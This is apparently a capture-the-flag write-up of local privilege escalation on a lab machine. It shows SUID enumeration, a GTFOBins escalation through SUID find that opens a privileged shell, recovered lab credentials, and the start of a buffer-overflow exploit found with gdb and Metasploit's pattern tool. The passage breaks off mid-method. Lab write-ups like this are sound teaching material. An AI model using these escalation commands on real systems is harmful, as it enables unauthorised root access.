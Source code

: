 ```bash
find / -u=s  2>/dev/null
find / -perm /4000 2>/dev/null
```

We see we have **/home/des/bof** we get perm denied  
We also have **/usr/bin/find** that is owned by des

Looking at [GTFObin](https://gtfobins.github.io/gtfobins/find/#suid)
We can elevate our privileges with **find**

```bash
./find . -exec /bin/sh -p \; -quit
```

And we get some credentials

```text
username: des
password: destructive_72656275696c64
```

The **bof** executable is owned by **tes**
So if we find a way to get a shell from executable we will be able to elevate
our privileges to **tes**

Let's exploit the BOF

1. Finding the offset

We set the assembly language to intel (it is easier to read)

```bash
(gdb) set disassembly-flavor intel
```

We first need to succesfully overwrite the rbp register

```bash
(gdb)run < <((python -c "print('A'*630)"))
```

We get a segmentation fault
A segmentation fault means the program tried to access or write to a an invalid
memory address.
In this case, it is probably because we set the return address of one of the
functions on the stack to an invalid one.

Using the `info registers` command we can see 0x414141.. in the rbp register
This means that we succeded

To find the offset we use metasploit

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 650
```

Now we see the value of the **rsp** register

```bash
x/xg $rsp
```
